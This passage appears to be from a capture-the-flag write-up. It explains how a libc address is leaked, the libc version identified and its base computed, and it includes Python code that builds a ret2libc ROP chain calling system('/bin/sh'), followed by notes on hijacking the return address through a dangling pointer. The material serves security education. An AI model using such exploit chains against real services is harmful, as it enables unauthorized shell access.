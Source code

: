 ### Ret2libc Payload Crafting  
If we inspect the leaked libc address at the 368th stack frame of
`game_handler` in GDB, we'll notice it points to `_IO_2_1_stdin_`.  
Given that the task did not provide a the version of libc it uses, we leak the
libc address from the server, knowing it points to the `_IO_2_1_stdin_`
symbol.

Then we search the symbol's offset in the libc database to find the version of
libc the server uses (I used this [website](https://libc.blukat.me/)).

Because multiple versions are found, we assume the first version corresponds
to the server's libc version, and make our code dynamically-dependent on the
libc version so we can change it later if needed.

Next, we simply calculate the libc base address by subtracting the symbol
`_IO_2_1_stdin_`'s offset from the leaked libc address.  
Then we calculate the symbol's addresses that will spawn a shell for us: `pop
rdi; ret`, `"bin/sh"`, `ret` and `system`.  
The additional `ret` instructions in the payload are necessary for avoiding
potential stack alignment issues during the exploit.

```python  
# Leak libc  
libc_leak = leakLibc(io)  
# Checked for this symbol in my elf's mapping  
libc_base = libc_leak - libc.sym['_IO_2_1_stdin_']

system = libc_base + libc.sym['system']  # Calculating system address  
bin_sh = libc_base + next(libc.search(b'/bin/sh\x00'))  # Calculating "bin/sh"
address  
pop_rdi = libc_base + (libcROP.find_gadget(['pop rdi', 'ret']))[0]  #
Calculating "pop rdi; ret" gadget address  
ret = libc_base + (libcROP.find_gadget(['ret']))[0]  # Calculating "ret"
gadget address

# Crafting the rop chain  
offset = b'A'*8  
payload = [  
 offset,  
 ret,  # Added for stack alignment  
 ret,  
 ret,  
 pop_rdi,  
 bin_sh,  
 system  
]  
payload = b''.join(payload)  
```

### Code flow Hijacking  
To reach the buffer pointed by `dangling_pointer` and **overwrite the return
address on the corresponding stack frame**, we need to determine the exact
number of stack frames.  
This involves comparing the current stack frame address to the buffer's
address in memory.  
By gradually creating additional stack frames, we progress until we notice
that we are **16 bytes** away from the return address.  
After experimenting, we find out that 436 stack frames were necessary.
